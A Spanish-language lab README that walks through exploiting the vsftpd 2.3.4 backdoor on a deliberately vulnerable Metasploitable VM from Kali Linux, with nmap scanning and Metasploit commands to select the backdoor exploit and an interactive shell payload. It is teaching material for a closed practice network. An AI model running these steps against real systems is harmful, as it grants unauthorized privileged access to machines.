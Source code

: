 # Ataque-FTP-vsftpd-2.3.4-con-Kali-y-Metasploit

## Ataque Simulado con Kali Linux: Explotación de Vulnerabilidad FTP vsftpd 2.3.4 Usando Metasploit

##  Descripción de la Práctica

En esta práctica, se asumirán los roles de atacante y víctima utilizando dos máquinas virtuales en red local. El **atacante** operará desde **Kali Linux**, una distribución diseñada para realizar auditorías de seguridad y pruebas de penetración, mientras que la **víctima** será una máquina **Metasploitable**, una máquina vulnerable deliberadamente, usada para fines de práctica en ciberseguridad.

El ataque se centrará en la explotación de un **servicio FTP** vulnerable, específicamente *vsftpd 2.3.4*, utilizando Metasploit para explotar esta vulnerabilidad y obtener acceso no autorizado a la máquina víctima con privilegios elevados.


### Pasos a seguir

1. **Iniciar el entorno virtual** 

Se iniciarán ambas máquinas (Kali Linux y Metasploitable) y se verificará la conectividad entre ellas a través de la red local, comprobando las direcciones IP respectivas.

(Kali Linux y Metasploitable) e **inicia sesión** en la máquina Metasploitable. 

   - **Credenciales**: 
   Usuario y contraseña son `msfadmin`.
   - Verifica la **IP** de la máquina Metasploitable.
   - También comprueba la **IP** de tu máquina Kali Linux.

   - **IP de Kali**: `172.26.16.204`
   - **IP de Metasploitable**: `172.26.16.217`

2. **En Kali Linux, abre un *terminal* y sigue estos pasos:**

   - Arranca el servicio de **PostgreSQL** con el siguiente comando:

     ```bash
     /etc/init.d/postgresql start
     ```
    ![kali](/img/K1.png)

    - Ver estado de **PostgreSQL**

        ![kali](/img/K2.png)

    - Actualiza la lista de paquetes con `apt update` y luego descarga e instala Metasploit con `apt install metasploit-framework`

        ![kali](/img/K3.png)   

    
   - Ejecuta el siguiente comando para iniciar **Metasploit**:

     ```bash
     msfconsole
     ```

     ![kali](/img/K4.png)


3. **Identificar la máquina a atacar**: Este paso generalmente se realiza con herramientas como **Nmap** o **Zenmap**, pero para ahorrar tiempo, podemos omitirlo ya que conocemos la IP de la víctima.

   - Si lo necesitas, aquí está el comando para escanear:

     ```bash
     nmap 172.26.16.217
     ```

4. **Escaneo de puertos y servicios en la víctima**: Utiliza Nmap para ver los puertos abiertos y los servicios que se están ejecutando.

   - Ejecuta el siguiente comando para buscar vulnerabilidades:

    `nmap  –sV  IP_VÍCTIMA`

     ```bash
     nmap -sV 172.26.16.217
     ```

   - Nos fijaremos en el puerto **21 (FTP)**, que está corriendo el servicio **vsftpd 2.3.4**

    ![kali](/img/K5.png)

    ![kali](/img/K5.2.png)



5. **Buscar un exploit para vsftpd 2.3.4**: Ahora utilizaremos Metasploit para encontrar el exploit correspondiente.

   - Usa el siguiente comando en **Metasploit**:

     ```bash
     search vsftpd_234
     ```
      ![kali](/img/K6.png)

   - Metasploit mostrará los exploits disponibles para la versión del servicio.

6. **Seleccionar el exploit**: Usaremos el exploit identificado en el paso anterior.

   - El comando para seleccionar el exploit en Metasploit es el siguiente:

     `use  exploit/SO/servicio/nombre_exploit`

     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     ```
        
    ![kali](/img/K7.png)

7. **Configurar opciones del exploit**: Verifica las opciones requeridas para el exploit con el siguiente comando:

   ```bash
   show options
   ```
    ![kali](/img/K8.png)

   Nos mostrará una lista de los servicios requeridos para que el exploit funcione, y los valores que en ese momento tiene cada servicio. En esta lista, solo necesitaremos dar valores a los servicios marcados como requeridos (columna “Required” marcada como “Yes”). En nuestro caso, tenemos que fijarnos en un servicio llamado RHOST, que aparecerá en blanco (el servicio RPORT ya tiene un valor asignado, y será el puerto 21, que es precisamente el puerto que queremos atacar, por tanto no habrá que tocarlo).

8. **Inyectar el payload:**
 En este caso, no es necesario inyectar un payload, ya que el exploit que estamos usando tiene uno por defecto. Si fuera necesario inyectar un payload, podrías listar los disponibles con el siguiente comando:

    ```bash
    show payloads
    ```
   
    - Luego, seleccionarías el payload adecuado con el comando:

    ```bash
    set PAYLOAD nombre_payload
    ```
    `set PAYLOAD payload/cmd/unix/interact`
      
    ![kali](/img/K9.png)

